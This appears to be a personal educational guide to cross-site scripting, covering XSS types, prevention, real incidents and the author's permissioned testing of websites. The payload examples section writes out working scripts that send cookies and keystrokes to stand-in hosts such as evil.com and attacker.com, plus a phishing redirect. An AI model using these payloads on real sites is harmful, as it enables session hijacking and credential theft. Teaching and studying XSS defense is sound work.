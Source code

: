 ~ Cross-Site Scripting (XSS) – A Complete Guide with Real-World Examples and Prevention and what I  know and also I shared my strategy . How I start finding this vulnerability in website with permission  ..
Web applications are now at the heart of almost every business operation. But as they’ve grown more complex, they’ve also become increasingly attractive targets for cybercriminals.
One of the most persistent—and dangerous—threats to web applications is Cross-Site Scripting (XSS).
In this guide, we’ll explore what XSS is, how it works, notable real-world incidents, and—most importantly—how you can prevent it.
________________________________________
What is the OWASP Top 10?
Before diving into XSS, it’s worth understanding where it sits in the wider security landscape.
The OWASP Top 10 is a globally recognized list of the most critical web application security risks, published by the Open Web Application Security Project (OWASP).
It serves as an awareness guide for developers, security professionals, and organizations—helping them identify, prioritize, and address the most common and impactful vulnerabilities seen in real-world applications.
XSS has been a recurring entry in the OWASP Top 10 for many years, highlighting just how widespread and dangerous it remains.
________________________________________
What is XSS (Cross-Site Scripting)?
Cross-Site Scripting (XSS) is a vulnerability that allows attackers to inject malicious scripts into otherwise trusted web pages. These scripts run in the browsers of unsuspecting users, effectively letting an attacker execute code in the context of the legitimate site.
With this capability, attackers can:
•	Steal sensitive data (e.g., session cookies).
•	Impersonate legitimate users.
•	Redirect visitors to malicious sites.
•	Deface pages or alter website content.
The danger comes from the fact that browsers inherently trust the source of the page. If the malicious script appears to come from the site itself, security checks are often bypassed.
________________________________________
Types of XSS Attacks
There are three main types of XSS attacks, each delivered differently.
1. Stored XSS (Persistent XSS)
The malicious script is permanently stored on the target server—commonly in a database, forum post, or comment field—and then served to users later.
Example:
<script>alert('Stored XSS')</script>
________________________________________
2. Reflected XSS (Non-Persistent XSS)
The malicious script is immediately reflected in the server’s response—often through query parameters or form submissions—and executed in the victim’s browser.
Example:
<script>alert('Reflected XSS')</script>
________________________________________
3. DOM-Based XSS
This attack occurs entirely on the client side, when insecure JavaScript in the page modifies the DOM based on unsanitized user input.
Example:
<script>
  let q = new URLSearchParams(location.search).get('q');
  document.body.innerHTML = q;
</script>
________________________________________
How an XSS Attack Works
1.	Finding an entry point – The attacker locates an input field, parameter, or API response that processes user input insecurely.
2.	Injecting malicious code – JavaScript or another payload is inserted.
3.	Exploiting poor validation – The application fails to sanitize or encode the input.
4.	Delivering the payload – The malicious script is stored, reflected, or executed via DOM manipulation.
5.	Victim interaction – A user loads the compromised page or clicks a malicious link.
6.	Execution – The attacker’s script runs in the victim’s browser, enabling actions like cookie theft, phishing, or session hijacking.
________________________________________
Common Goals of XSS Attacks
While many demonstrations of XSS simply display a pop-up alert, attackers use it for far more serious purposes:
•	Cookie Theft – Capturing session cookies to impersonate users.
•	Session Hijacking – Taking over active sessions.
•	Keylogging – Recording keystrokes to steal credentials.
•	Phishing – Redirecting victims to fake login pages.
________________________________________
Why Attackers Prefer JavaScript for XSS
JavaScript is the go-to language for XSS payloads because:
•	It runs in every modern browser.
•	It can read and manipulate the DOM.
•	It can access cookies, local storage, and session data (with some restrictions).
•	It can send requests to attacker-controlled servers.
________________________________________
Educational XSS Payload Examples
⚠️ Important: These examples are for safe, controlled environments only—such as DVWA, OWASP Juice Shop, or local testing.
Never test these on live or unauthorized systems.
1.	Basic Alert
<script>alert('XSS')</script>
2.	Cookie Theft
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
3.	Session Hijacking
<script>
  new Image().src = "http://evil.com/hijack?data=" + document.cookie;
</script>
4.	Keylogging
<script>
  document.onkeypress = function(e) {
    fetch('http://evil.com/log?key=' + e.key);
  }
</script>
5.	Phishing Redirection
<script>
  window.location = "http://fake-login.com";
</script>
________________________________________
**Preventing Cross-Site Scripting (XSS)**
Effective XSS prevention requires both detection and proactive defense.
________________________________________
1. Detecting XSS Vulnerabilities
•	Vulnerability Scanning – Automated tools can identify common XSS patterns.
•	Static Code Analysis – Finds insecure coding practices before deployment.
•	Security Testing in CI/CD – Integrates security scans into the development lifecycle for early detection.
________________________________________
2. Prevention Techniques
Input Validation
•	Always sanitize and validate user input before processing.
•	Reject unexpected formats and suspicious characters.
•	Use whitelists instead of blacklists whenever possible.
Output Encoding
•	Encode user-provided content before rendering it in the browser.
•	Apply context-aware encoding for HTML, JavaScript, CSS, and URL contexts.
Example – Output Encoding in JavaScript:
const userInput = "<script>alert('XSS');</script>"; 
const encodedInput = encodeURIComponent(userInput);
console.log(encodedInput); // %3Cscript%3Ealert('XSS')%3C%2Fscript%3E
________________________________________
Real-World Examples of XSS Attacks
XSS has caused serious damage to well-known platforms:
•	Zoom (2020) – A persistent XSS flaw in Zoom’s web client allowed malicious code injection via chat. Zoom patched it quickly but paused feature development for 90 days to focus on security.
•	WordPress WPBakery Page Builder (2020) – A stored XSS bug let attackers inject scripts into thousands of sites, leading to defacement, data theft, and downtime.
•	Slack (2021) – A stored XSS in shared workspace invitations enabled token theft and unauthorized changes. Slack responded with an emergency patch and enhanced security reviews.
•	Atlassian Confluence (2021) – A persistent XSS allowed malicious macros to hijack user sessions, forcing urgent security patches.
________________________________________
Final Thoughts
Cross-Site Scripting remains one of the most prevalent and dangerous web vulnerabilities.



**My Personal Experience**: How I Found an XSS Vulnerability in a Real Website
As someone passionate about web application security, I’ve always been curious about how vulnerabilities work in real-world systems.
When I first started exploring Cross-Site Scripting (XSS), my goal wasn’t just to hack for fun — it was to learn, practice ethically, and help secure real applications.
________________________________________
Step 1 – Researching the Most Effective Scripts
Before touching any target, I spent time studying which XSS payloads are most successful in practical scenarios.
I read reports on Bugcrowd and HackerOne, where security researchers shared their techniques.
From there, I learned which scripts tend to bypass filters, how browsers process them, and which contexts are more vulnerable.
________________________________________
Step 2 – Picking the First Target
I didn’t want to start with huge corporations right away.
Instead, I chose something closer to home — a college website near me.
Why? Because for practicing in a controlled and ethical way, college websites are a great start (once you have permission).
They’re usually complex enough to have multiple entry points, but small enough that you can talk directly to the admins.
________________________________________
Step 3 – Getting Permission
This step is non-negotiable.
I reached out to the administrator with a clear message:
“I’m a security researcher learning about web vulnerabilities.
I’d like to test your website for potential security flaws.
I will not harm your system or misuse any data, and I will share my findings with you.”
Once I got the green light, I could test without worrying about legal issues.
________________________________________
Step 4 – Testing Every Input
My approach was simple but thorough — I tested every input field I could find:
•	Search bars
•	E-library search
•	Feedback forms
•	Tool input fields
•	Signup & registration forms
For each one, I tried inserting my XSS payloads.
Sometimes they didn’t work because of restrictions like input length limits.
________________________________________
Step 5 – Thinking Like an Attacker
If a field didn’t allow enough characters, I opened my browser’s Inspect Element tool and increased the input size limit manually.
This allowed me to inject longer payloads.
Sometimes I needed to experiment creatively — not every attack works on the first try.
This process taught me a valuable lesson:
Security is just an illusion — it’s only as strong as the creativity of the person testing it.
________________________________________
Step 6 – Expanding My Scope
After testing the college site and responsibly reporting my findings, I moved on to:
•	Small tech-related companies
•	Educational institutions
•	Public service portals
Each time, I followed the same ethical hacking process:
1.	Get permission first.
2.	Test systematically.
3.	Document everything.
4.	Report vulnerabilities responsibly.

Cheatsheet = all script
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet.pdf

 
 📚 Learning Resources
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [HackerOne Hacktivity](https://hackerone.com/hacktivity)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [TryHackMe Labs](https://tryhackme.com)

Reference lab:  DVWA, Juice Shop, HackTheBox .
 ________________________________________
Final Thoughts
This journey taught me more than just XSS payloads — it taught me discipline, ethics, and problem-solving.
Finding a vulnerability is exciting, but helping an organization fix it is far more rewarding.
Security isn’t just about breaking things; it’s about making them stronger.
________________________________________

 



